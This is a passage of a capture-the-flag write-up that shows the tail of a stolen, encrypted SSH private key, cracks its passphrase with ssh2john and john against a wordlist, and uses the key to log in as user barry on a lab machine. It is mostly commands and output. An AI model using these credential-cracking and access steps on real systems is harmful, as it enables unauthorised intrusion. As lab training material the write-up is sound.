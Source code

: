 ```
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```

The ssh private key of Barry. It's encrypted, so let's pass it to john.
```
ssh2john barry_id_rsa > barry_id_rsa_forJohn.txt 
john barry_id_rsa_forJohn.txt --wordlist=/opt/rockyou.txt 

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (barry_id_rsa)     
1g 0:00:00:02 DONE (2022-11-10 01:40) 0.4975g/s 1477Kp/s 1477Kc/s 1477KC/s urieljr..urielitho0
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We can now try to connect with barry's key.
```
chmod 600 barry_id_rsa
ssh -i barry_id_rsa barry@10.10.70.142

The authenticity of host '10.10.70.142 (10.10.70.142)' can't be established.
ED25519 key fingerprint is SHA256:8ffSUaKVshwAGNYcOWTbXfy0ik5uNnUqe/0nXK/ybSA.
This host key is known by the following other names/addresses:
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.70.142' (ED25519) to the list of known hosts.
Enter passphrase for key 'barry_id_rsa': urieljames
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$ 
```
